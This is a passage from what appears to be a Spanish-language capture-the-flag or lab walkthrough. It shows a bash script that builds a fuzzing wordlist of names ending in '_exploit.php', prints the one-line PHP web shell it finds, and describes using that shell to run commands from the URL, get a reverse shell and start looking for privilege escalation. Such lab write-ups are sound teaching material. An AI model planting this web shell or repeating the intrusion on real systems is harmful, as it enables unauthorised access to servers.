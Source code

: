 así que cree un script en bash que me generaría un diccionario para maximizar aun mas el fuzzing

```bash
#!/bin/bash

diccionario=$(echo -e {a..z}{a..z}{a..z} | tr " " "\n")
palabra="_exploit.php"

for i in $diccionario; do
    echo $i$palabra >> diccionario.txt
done
```

Este código Bash genera un diccionario de nombres de archivo y lo guarda en un archivo de texto. Específicamente, crea combinaciones de tres letras minúsculas (de 'aaa' a 'zzz'), las concatena con la cadena `_exploit.php`, y guarda cada combinación resultante en un archivo llamado `diccionario.txt`.

al probar el diccionario creado obtuve lo siguiente.
______
![](attachment/9e1d5a5f94d0991e869ef3f9ee464671.png)
_____
tenemos el nombre del archivo, el archivo contiene el siguiente codigo.

```php
<?php
	system($_GET['cmd']);
?>
```

el cual nos permitirá ejecutar comandos desde la url.
______
![](attachment/369c0e36989326f2ffdd2f693c157ccc.png)
_____
ahora podemos enviarnos una reverse shell y ganar acceso al sistema.
____
![](attachment/27f60267ed99a17e40b5e94fd776ec8a.png)
____
ya que tenemos acceso a la maquina, aplicamos el tratamiento de la tty y nos disponemos a enumerar usuarios y formas potenciales de escalar privilegios.
